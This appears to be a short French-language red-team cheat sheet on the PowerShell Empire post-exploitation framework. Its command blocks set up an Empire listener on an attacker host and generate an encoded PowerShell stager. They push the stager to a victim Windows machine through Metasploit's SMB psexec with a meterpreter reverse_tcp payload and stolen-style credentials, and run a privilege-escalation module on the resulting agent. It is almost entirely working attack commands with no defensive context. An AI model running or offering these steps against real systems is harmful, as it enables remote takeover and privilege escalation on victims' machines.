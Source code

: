 ## empire

[http://www.powershellempire.com/](http://www.powershellempire.com/)

Lancer un listener dans empire :

```
cd ~/tools/empire/
./empire
listeners
list
info
set Name oreille
set Host http://10.0.0.1:8081/
run
```

Générer un stager (ici une commande powershell) :

```
main
usestager launcher
info
set Listener oreille
generate
```

Lancer le stager grâce à un `ps_exec` dans metasploit :

```
sudo msfconsole
use exploit/windows/smb/psexec
set rhost <ip_victime>
set smbdomain DOMEIN
set smbuser utilisateur
set smbpass secretPassword
set payload windows/meterpreter/reverse_tcp
set lport 8082
set lhost 10.0.0.1
exploit -j -z

 dans le meterpreter de la session ouverte
execute -f powershell.exe -a '-NoP -sta -NonI -W Hidden -Enc JAB3[…]A=='
```

Un agent devrait être né du listener. Il est possible de lancer un module :

```
[+] Initial agent K1AZ333ZLYTK3TTD from <ip_victime> now active

usemodule privesc/powerup/allchecks
options
info
set Agent K1AZ333ZLYTK3TTD
run
```

Attention : l'affichage du résultat du module lancé ne se fait pas dans la fenêtre.
Il faut aller voir `~/tools/empire/downloads/agents/K1AZ333ZLYTK3TTD/agent.log`



